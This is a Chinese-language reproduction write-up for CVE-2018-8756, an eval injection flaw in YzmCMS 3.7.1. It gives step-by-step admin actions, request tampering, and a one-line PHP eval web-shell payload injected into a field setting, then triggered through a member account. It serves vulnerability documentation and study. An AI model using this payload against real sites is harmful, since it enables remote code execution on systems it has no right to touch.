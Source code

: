 （CVE-2018-8756）YzmCMS v3.7.1 Eval注入漏洞
===========================================

一、漏洞简介
------------

YzmCMS是中国程序员袁志蒙开发的一套开源的CMS（内容管理系统）。 YzmCMS
3.7.1版本中的yzmphp/core/function/global.func.php文件存在安全漏洞。远程攻击者可借助index.php?m=member&c=member\_content&a=init请求的POST数据中的PHP代码利用该漏洞执行任意代码。

二、漏洞影响
------------

YzmCMS v3.7.1

三、复现过程
------------

首先，从网站后台登陆，/index.php?m=admin&c=index&a=init，然后选择模型管理，选
择模型 ID 为 1 的那个字段管理，然后添加字段，像下面这张图一样填表。

![](./.resource/(CVE-2018-8756)YzmCMSv3.7.1Eval注入漏洞/media/rId24.png)

接着需要拦截数据包，像图片一样，

    修改 fieldtype 为 datetime，修改 datesest 为 array(1);@eval($_POST[wushuang])

![](./.resource/(CVE-2018-8756)YzmCMSv3.7.1Eval注入漏洞/media/rId25.png)

接着我们需要一个用户可以触发这个漏洞，选择会员管理，选择会员管理，添加用户，
填表如下。

![](./.resource/(CVE-2018-8756)YzmCMSv3.7.1Eval注入漏洞/media/rId26.png)

现 在 我 们 已 经 完 成 了 准 备 工 作 ， 接 着 以 用 户 身 份 登 陆 ，
guici/123456,/index.php?m=member&c=index&a=login，点击在线投稿，接着你就可以执行任
意代码通过输入 post 数据
wushuang！/index.php?m=member&c=member\_content&a=init

![](./.resource/(CVE-2018-8756)YzmCMSv3.7.1Eval注入漏洞/media/rId27.png)

参考链接
--------

> <https://github.com/guiciwushuang/yzmcms/blob/master/yzmcms_eval_injection_chinese.pdf>
